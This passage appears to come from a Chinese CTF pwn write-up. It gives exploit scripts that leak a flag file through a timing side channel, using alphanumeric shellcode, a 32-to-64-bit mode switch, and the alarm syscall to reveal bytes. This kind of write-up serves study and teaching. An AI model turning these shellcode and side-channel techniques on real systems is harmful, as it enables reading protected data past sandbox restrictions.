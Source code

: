 ```python
flag = []
idx = 0
while True:
	for ch in range(32, 127):
		cn = process("./bin")
		exp(idx, ch)
		start = time.time()
		try:
			cn.recv(timeout=2)
		except:
			...
		cn.close()
		end = time.time()
		if end - start > 1.5:
			flag.append(ch)
			print(bytes(flag))
			break;
	else:
		print(bytes(flag))
		break
	idx += 1
```

得到flag:

![image-20210825214314835](https://i.loli.net/2021/08/25/XOCmEgbnoP5M4vZ.png)

## alarm时间获取flag 

比较有趣的思路, 复现来自[赤道企鹅师傅的wp](https://eqqie.cn/index.php/archives/1662),  

思路就是通过alarm系统调用设置时钟, 参数是读取进来的flag的某一位,  脚本中获取到这个等待时间就是flag, 

```python

openflag = asm32(shellcraft.i386.linux.open("./flag"))
ret264 = asm32('''
	push 0x33; 
	push 0x40404065;
	// retfq;
	''') + b"H\xcb"
readflag = asm64(shellcraft.amd64.linux.read(3, 'rsp', 0x100))

def exp(idx):
	cn = process("./bin")
	payload1 = b"Sh0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M153f3b0s2F0s2B0Z2l0l2L072I0X1P0i2w134l1M1m3k2F090o7m0L0x5o3g2p0p2I0r2q0Y2C2D060y1L8N2E124k7m0C0x3n3d2O0x2M0p2F2s2p0u2O0s2G0z5K00"
	
	# gdb.attach(cn, cmd)
	cn.sendline(payload1)
	# pause()

	alarm = asm64('''
		xor rax, rax;
		mov al, byte ptr[rsp+{}];
		mov rdi, rax;
		sub rdi, 0x20;
		push 37;
		pop rax;
		syscall;
		jmp $;
		'''.format(idx))

```